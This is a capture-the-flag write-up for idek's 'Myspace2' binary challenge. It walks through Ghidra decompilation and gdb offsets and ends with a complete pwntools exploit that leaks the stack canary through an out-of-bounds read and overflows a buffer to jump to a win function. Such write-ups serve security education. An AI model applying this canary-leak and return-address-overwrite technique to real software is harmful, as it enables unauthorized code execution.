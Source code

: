 ```yaml
---
description: a ret2win with canary bypass pwn challenge
---
```


# Myspace2

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

given an ELF file.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

we see here the ELF file has a stack canary. Then we run the program

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

then we decompile the program using ghidra

main:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("I really miss MySpace. At least the part about ranking my friends. Let\'s recreate it!");
  local_78 = 0x6e316e337365;
  local_70 = 0x6f72655a;
  local_68 = 0x6e6f72746e6f43;
  local_60 = 0x317978696d;
  local_58 = 0x4c68736f4a;
  local_50 = 0x70707070616947;
  local_48 = 0x746e6f6673656349;
  local_40 = 0x78636974637261;
LAB_00401636:
  menu();
  fgets(local_38,0x28,stdin);
  iVar1 = FUN_00401160(local_38);
  if (iVar1 == 4) {
    if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
      return 0;
    }
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  if (iVar1 < 5) {
    if (iVar1 == 3) {
      display_friend(&local_78);
      goto LAB_00401636;
    }
    if (iVar1 < 4) {
      if (iVar1 == 1) {
        all_friends(&local_78);
      }
      else {
        if (iVar1 != 2) goto LAB_004016cd;
        edit_friend(&local_78);
      }
      goto LAB_00401636;
    }
  }
LAB_004016cd:
  puts("Invalid option.");
  goto LAB_00401636;
}
```

this ELF has two vulnerabilities. one at edit\_friend and another at display\_friend.

```c
void edit_friend(long param_1)

{
  int iVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nEnter index to edit (0-7): ");
  fgets(local_48,0x20,stdin);
  iVar1 = FUN_00401160(local_48);
  if ((iVar1 < 0) || (7 < iVar1)) {
    puts("Invalid index!");
  }
  else {
    puts("Enter new name: ");
    fgets((char *)((long)iVar1 * 8 + param_1),0x100,stdin);
    sVar2 = strcspn((char *)(param_1 + (long)iVar1 * 8),"\n");
    *(undefined *)((long)iVar1 * 8 + param_1 + sVar2) = 0;
    puts("Friend updated.");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

```c
void display_friend(long param_1)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nEnter index to display (0-7): ");
  fgets(local_28,0x10,stdin);
  iVar1 = FUN_00401160(local_28);
  if ((iVar1 < 0) || (7 < iVar1)) {
    puts("Invalid index!");
  }
  write(1,(void *)(param_1 + (long)iVar1 * 8),8);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

now for the exploit part. first we leak canary by exploiting arbitrary read vuln at display\_friend then we ret2win by exploiting buffer overflow vuln at edit\_friend.

we then use gdb to see the memory offsets

```armasm
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401584 <+0>:	endbr64
   0x0000000000401588 <+4>:	push   rbp
   0x0000000000401589 <+5>:	mov    rbp,rsp
   0x000000000040158c <+8>:	add    rsp,0xffffffffffffff80
   0x0000000000401590 <+12>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000401599 <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040159d <+25>:	xor    eax,eax
   0x000000000040159f <+27>:	mov    rax,QWORD PTR [rip+0x2aba]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x00000000004015a6 <+34>:	mov    ecx,0x0
   0x00000000004015ab <+39>:	mov    edx,0x2
   0x00000000004015b0 <+44>:	mov    esi,0x0
   0x00000000004015b5 <+49>:	mov    rdi,rax
   0x00000000004015b8 <+52>:	call   0x401150 <setvbuf@plt>
   0x00000000004015bd <+57>:	lea    rax,[rip+0xb24]        # 0x4020e8
   0x00000000004015c4 <+64>:	mov    rdi,rax
   0x00000000004015c7 <+67>:	call   0x4010d0 <puts@plt>
   0x00000000004015cc <+72>:	movabs rax,0x6e316e337365
   0x00000000004015d6 <+82>:	mov    QWORD PTR [rbp-0x70],rax
```

this might seem confusing, but when we combine with ghidra decompile info, we know that main <+82> is where 'friends' array started and it is stored in **rbp-0x70**. We can also see where the canary is stored, which is main <+21> and is stored in **rbp-0x8**.

Now we can calculate the offsets:

*   friends to canary:

    Offset = (Canary addr) - (Friends beginning addr)

    Offset = (rbp-0x8) - (rbp-0x70)

    Offset = -0x8 + 0x70 = **0x68 bytes (104 in decimal)**&#x20;
*   Canary leak:

    *   Display\_friend() function reads address from **friends\_addr + index \* 8**.

        Canary\_addr = friends\_addr + index \* 8

        (friends\_addr) + 0x68 = (friends\_addr) + index \* 8

        0x68 = index \* 8

        index = 0x68/8 = 104/8 = **13**



now after we got all the offsets we construct our exploit:

```python
from pwn import *

#p = process('./myspace2')
p = remote('myspace2.chal.idek.team', 1337)

def leak(index):
    p.sendlineafter(b'>>', b'3')
    p.sendlineafter(b'Enter index to display (0-7):', str(index).encode())
    p.recvuntil(b'Invalid index!\n')
    leaked = p.recv(8)
    return u64(leaked)

# Leak canary
canary = leak(13)
print(f"Canary: {hex(canary)}")

p.sendlineafter(b'>>', b'2')
p.sendlineafter(b'Enter index to edit (0-7):', b'0')

payload = b"A" * 104
payload += p64(canary)
payload += b"B" * 8
payload += p64(0x40129d)  # get_flag

p.sendlineafter(b'Enter new name:', payload)
p.sendlineafter(b'>>', b'4')
p.interactive()
```

#### Flag: idek{b4bys\_1st\_c00k1e\_leak\_yayyy!}
